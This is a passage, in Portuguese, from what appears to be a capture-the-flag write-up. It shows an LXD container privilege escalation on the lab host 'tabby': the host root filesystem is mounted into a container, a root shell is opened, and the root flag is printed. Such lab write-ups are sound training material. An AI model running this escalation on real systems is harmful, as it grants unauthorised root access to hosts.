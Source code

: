 Ele foi criaado, porém está stopado.  Fala na documentação que precisa configurar ele no mnt
ai eu fiz isso dessa forma:

```bash
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
```
(consta na documentação também)
ele sempre cria o container com o nome 'privesc'

```bash
    ash@tabby:~$ lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to privesc
```

Ele foi montado com sucesso, agora só dar o start no container.


```bash
ash@tabby:~$ lxc start privesc
lxc start privesc
ash@tabby:~$ lxc exec privesc /bin/sh
lxc exec privesc /bin/sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /mnt/root
cd /mnt/root
# ls
ls
bin    dev   lib    libx32    mnt   root  snap      sys  var
boot   etc   lib32  lost+found    opt   run   srv       tmp
cdrom  home  lib64  media    proc  sbin  swap.img  usr
# cd root
cd root
# ls
ls
root.txt  snap
# cat root.txt    
cat root.txt
653d95c2eb0f63629eeb048ea1d0a3b5
# 
```





